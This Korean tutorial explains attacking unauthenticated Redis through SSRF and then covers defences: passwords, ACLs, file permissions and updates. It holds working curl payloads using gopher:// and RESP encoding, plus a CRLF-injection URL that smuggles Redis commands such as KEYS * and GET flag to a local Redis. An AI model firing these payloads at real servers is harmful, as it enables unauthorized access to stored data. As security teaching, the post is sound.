

<br />

SSRF 취약점을 이용하여 Redis에 무단으로 접근할 수 있는 공격 기법과 대응 방안을 간략하게 소개하고자 합니다.

기본적인 Redis 사용법은 아래에서 확인 가능합니다.
- [nodejs에서 Redis 사용 방법](https://redis.io/docs/latest/develop/connect/clients/nodejs/)
- [Redis Cheatsheet](https://redis.io/docs/latest/develop/connect/clients/nodejs)
- [WSL Redis 설치](https://learn.microsoft.com/ko-kr/windows/wsl/tutorials/wsl-database#install-redis)

<br />

Redis는 기본 설치 시 "127.0.0.1:6379"에 바인딩되며 별도의 인증이 설정되어 있지않습니다. 그래서 SSRF 취약점이 발생하여 내부에 접근이 가능한 경우, Redis가 위협에 그대로 노출될 가능성이 높습니다.

<br />

> ❓ SSRF
> 
> 서버 측 요청 위조는 공격자가 서버 측 애플리케이션이 의도하지 않은 위치로 요청을 보내도록 하는 웹 보안 취약점입니다.\
> 일반적인 SSRF 공격에서 공격자는 서버가 조직 인프라 내의 내부 전용 서비스에 연결하도록 만들 수 있습니다.\
> 또 다른 경우로는, 서버가 임의의 외부 시스템에 연결하도록 강제할 수도 있습니다.\
> 이 경우 인증 자격 증명과 같은 민감한 데이터가 유출될 수 있습니다.  
> https://portswigger.net/web-security/ssrf

<br />

Redis는 유효하지 않은 명령어가 입력되어도 에러 발생 후 다음 명령어를 실행합니다.
이러한 점과 SSRF 취약점을 이용해, Redis 3.2.7 버전 이전에서는 HTTP POST Method로 명령을 전송하여 Redis 내의 정보를 탈취할 수 있었습니다.

_e.g. HTTP 이용_
```bash
POST / HTTP/1.1
host: 127.0.0.1:6379
user-agent: ...
content-type: application/x-www-form-urlencoded

param=123
GET name
...
```

하지만 3.2.7 버전부터는 `POST`, `HOST:` 를 `QUIT` 명령어로 인식하여 연결을 끊어버리도록 패치가 되었습니다.

https://github.com/redis/redis/commit/a81a92ca2ceba364f4bb51efde9284d939e7ff47


_e.g. `POST`, `HOST:` 문자열 입력 시 연결 중단_
```bash
$ echo -e "KEYS *" | nc 127.0.0.1 6379
*2
$4
user
$4
name

$ echo -e "post a\r\nget name" | nc 127.0.0.1 6379 ◀◀ QUIT 명령으로 인식되어 연결이 끊어짐

$ echo -e "host: a\r\nping" | nc 127.0.0.1 6379 ◀◀ QUIT 명령으로 인식되어 연결이 끊어짐

$ telnet 0 6379
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
KEYS *
*2
$4
user
$4
name
GET name
$9
skitttles
POST
Connection closed by foreign host. ◀◀ QUIT 명령으로 인식되어 연결이 끊어짐

$ telnet 0 6379
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
HOST:
Connection closed by foreign host. ◀◀ QUIT 명령으로 인식되어 연결이 끊어짐
```

<br />

# 🗡 공격
## 1. gopher
HTTP POST 사용이 어려우므로 gopher 프로토콜을 이용합니다.\
gopher 경로로 `_명령어`를 입력하여 접속 시 명령어가 실행합니다.

✨ Payload : `PING`
```bash
$ curl gopher://127.0.0.1:6379/_PING%0D%0A --max-time 1
+PONG
curl: (28) Operation timed out after 1001 milliseconds with 7 bytes received
```
✨ Payload : `KEYS *`
```bash
$ curl gopher://127.0.0.1:6379/_KEYS%20%2A%0D%0A --max-time 1
*2
$4
user
$4
name
curl: (28) Operation timed out after 1001 milliseconds with 24 bytes received
```

<br />

## 2. RESP
명령어 입력 시 Double Quotes 등 특수문자가 제한되는 경우, RESP를 이용하여 명령어를 입력할 수 도 있습니다.

>❓ RESP (REdis Serialization Protocol)  
>
>`SET name skitttles` 와 같이 문자열로 된 명령어가 Non-RESP 형태이며, 아래와 같은 형태가 RESP입니다.
> 
>```bash
>*3  # 3 arguments ("SET", "user", "")
>$3  # 3 length of the string "SET"
>SET
>$4  # 4 length of the string "user" key
>user
>$5  # 5 length of the string
>guest
>```
>Double Quotes(")와 같은 특수문자가 있는 경우에도 오류를 방지할 수 있으므로 더 권장되는 방법입니다.

<br />

✨ RESP 명령어 Payload : `GET name` 
```bash
$ curl gopher://127.0.0.1:6379/_%2A2%0D%0A%243%0D%0AGET%0D%0A%244%0D%0Auser%0D%0A --max-time 1
$5
guest
curl: (28) Operation timed out after 1001 milliseconds with 11 bytes received
```

<br />

## 3. HTTP GET + CRLF Injection
그리고 또 한가지, HTTP POST를 이용한 SSRF가 패치되었지만, 몇가지 조건 하에 HTTP GET Method와 CRLF Injection을 이용해서 여전히 Redis SSRF 공격이 가능합니다.

- 사용자 입력 값이 HTTP 요청 헤더에 반영되어야 합니다. (CRLF Injection을 위해)
- 서버에서 HTTP 요청에 CRLF(\r\n)가 입력되는 것을 허용해야 합니다.

위 조건을 만족할 때, RESP 구문을 이용하여 `HOST:`를 인식하는 것을 우회, Redis 명령어를 사용할 수 있습니다.
[_참고_](https://smarx.com/posts/2020/09/ssrf-to-redis-ctf-solution/)

✨ CRLF Injection + SSRF to Redis Payload
```bash
curl 'http://127.0.0.1:8080/hash?url=http://127.0.0.1:6379&method=*1%0D%0A$20%0D%0A&authorization=%0D%0AGET%20flag%0D%0A'
```
길이 20의 공간을 할당(`$20`)하여 `Host:`가 인식되는 것을 우회합니다.

위 Payload 전송 시 아래와 같이 요청됩니다.
```text
*1
$20
 / HTTP/1.1
Host: 127.0.0.1:12345
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.6
authorization: 
GET flag
```

<br />

# 🛡 대응 방안
## 1. 인증 설정

`redis.conf` 파일에서 `requirepass` 지시어를 이용하여 패스워드를 설정합니다.
이때 패스워드는 충분히 긴 패스워드로 설정합니다. (Brute force 공격 대응)

_redis.conf_
```
requirepass your_redis_password
```
_인증 후에 명령어 사용 가능_
```bash
127.0.0.1:6379> AUTH pass1234OK
```

충분히 긴 패스워드에도 불구하고 `redis.conf` 파일에 패스워드가 평문으로 저장되므로 다음과 같은 방법으로 암호화할 것을 권장합니다.
- **암호화된 환경 변수 사용**
	- Redis 설정 파일(redis.conf)에서 환경 변수를 참조합니다:
		- `requirepass $REDIS_PASSWORD`
	- 시스템 시작 시 환경 변수를 로드합니다
		- `export REDIS_PASSWORD=$(decrypt_command encrypted_password_file)`
- **Vault 사용**
	- HashiCorp Vault와 같은 비밀 관리 도구를 사용하여 Redis 비밀번호를 안전하게 저장하고, 애플리케이션이 실행될 때 비밀번호를 로드합니다.
		- `requirepass $(vault read -field=value secret/redis)`


## 2. ACL(Access Control List) 설정

Redis 6.0 이상 버전에서는 ACL을 사용하여 사용자별 권한을 세밀하게 설정할 수 있습니다. `users.acl` 파일을 사용하여 사용자별로 명령어 접근을 제한합니다.

_alice 계정에 mypass 패스워드와 get 권한 부여_
```
ACL SETUSER alice on >mypass ~cached:* +get
```


## 3. 설정 파일의 권한 설정
`redis.conf` 파일에 Othres 권한을 제거하여 무단 접근을 방지합니다.

## 4. 최신 버전 사용
항상 최신 버전의 Redis를 사용하여 알려진 취약점을 해결하고 최신 보안 패치를 적용합니다.

<br />

# ✨ Payloads
1. `PING`
```bash
curl gopher://127.0.0.1:6379/_PING%0D%0A --max-time 1
```
2. `KEYS *`
```bash
curl gopher://127.0.0.1:6379/_KEYS%20%2A%0D%0A --max-time 1
```
3. `GET name` 
```bash
curl gopher://127.0.0.1:6379/_%2A2%0D%0A%243%0D%0AGET%0D%0A%244%0D%0Auser%0D%0A --max-time 1
```
4. CRLF Injection + SSRF to Redis Payload
```bash
curl 'http://127.0.0.1:8080/hash?url=http://127.0.0.1:6379&method=*1%0D%0A$20%0D%0A&authorization=%0D%0AGET%20flag%0D%0A'
```


<br />

# 📖 References
- https://blog.wooeong.kr/2020/05/ssrf-to-redis.html
- https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b
- https://redis.io/docs/latest/operate/oss_and_stack/management/security/
- https://redis.io/docs/latest/operate/oss_and_stack/management/security/acl/

